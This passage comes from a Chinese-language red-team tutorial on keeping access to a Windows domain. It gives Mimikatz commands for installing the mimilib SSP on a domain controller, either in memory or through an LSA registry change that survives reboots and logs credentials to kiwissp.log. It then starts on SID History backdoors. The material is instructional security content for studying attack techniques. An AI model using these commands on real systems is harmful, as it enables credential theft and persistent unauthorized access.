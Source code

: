 #### [](#231-mimilib-ssp)2.3.1 mimilib SSP

> 由于是针对本机的 LSA 进行 Patch，因此本方法只针对在当前机器上登录的用户起作用

##### [](#2311-%E9%80%9A%E8%BF%87%E5%86%85%E5%AD%98%E6%9B%B4%E6%96%B0%E7%95%99%E5%90%8E%E9%97%A8%E4%B8%B4%E6%97%B6)2.3.1.1 通过内存更新留后门（临时）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::memssp<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209135146.png-water_print](assets/1699409504-3c05e347523354ac6d5c9d2d98868806.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209135146.png-water_print")

##### [](#2312-%E9%80%9A%E8%BF%87%E4%BF%AE%E6%94%B9%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%95%99%E5%90%8E%E9%97%A8%E6%B0%B8%E4%B9%85)2.3.1.2 通过修改注册表留后门（永久）

使用此方法即使系统重启，也不会影响到持久化的效果

1.  添加 `mimilib.dll` 到域控 `C:\windows\system32` 下

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>copy mimilib.dll %systemroot%\system32<br>``` |

> **注：**
> 
> 64 位系统要用 64 位的 mimilib.dll，32 位的会失败

2.  设置 SSP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"<br>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ<br>``` |

3.  重启系统

域控重启后在 `c:\windows\system32` 可看到新生成的文件 `kiwissp.log`

### [](#24-sid-history-%E5%9F%9F%E5%90%8E%E9%97%A8)2.4 SID History 域后门

> 每个用户帐号都有一个关联的安全标识符（简称SID），SID 用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持 AD 迁移，微软设计了 SID History 属性，SID History 允许另一个帐户的访问被有效的克隆到另一个帐户。通过 SID History 可让用户拥有不同身份的权限，在单域中同样有效。
